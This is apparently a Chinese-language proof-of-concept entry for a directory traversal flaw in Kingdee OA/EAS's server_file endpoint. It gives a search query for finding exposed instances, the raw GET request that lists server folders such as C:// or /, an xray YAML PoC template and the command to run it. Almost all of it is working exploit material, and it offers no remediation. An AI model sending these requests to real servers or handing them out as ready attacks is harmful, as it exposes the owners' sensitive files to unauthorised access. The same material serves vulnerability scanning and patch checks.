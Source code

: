 # 金蝶OA server_file 目录遍历漏洞
## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息
## 影响版本
```
金蝶OA
```

## 网络测绘
```
app="Kingdee-EAS"
```

## 环境搭建

-

## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201742057.png)


## 数据包
```
GET /appmonitor/protected/selector/server_file/files?folder=C://&suffix= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

## YAML代码
```
name: poc-yaml-kingdee-eas-directory-traversal
manual: true
transport: http
rules:
  r0:
    request:
      method: GET
      path: /appmonitor/protected/selector/server_file/files?folder=C://&suffix=
    expression: response.status == 200 && (response.body.bcontains(b'{"name":"Windows","path":"C:\\\\Windows","folder":true}') || response.body.bcontains(b'{"name":"root","path":"/root","folder":true}'))
  r1:
    request:
      method: GET
      path: /appmonitor/protected/selector/server_file/files?folder=/&suffix=
    expression: response.status == 200 && (response.body.bcontains(b'{"name":"Windows","path":"C:\\\\Windows","folder":true}') || response.body.bcontains(b'{"name":"root","path":"/root","folder":true}'))
expression: r0() || r1()
detail:
  author: klear
  links:
    - https://github.com/nu0l/poc-wiki/blob/main/%E9%87%91%E8%9D%B6OA%20server_file%20%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E.md
```

## xray调用

```
xraypro  ws --poc poc-yaml-kingdee-eas-traversal.yml --url xx
```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201928254.png)
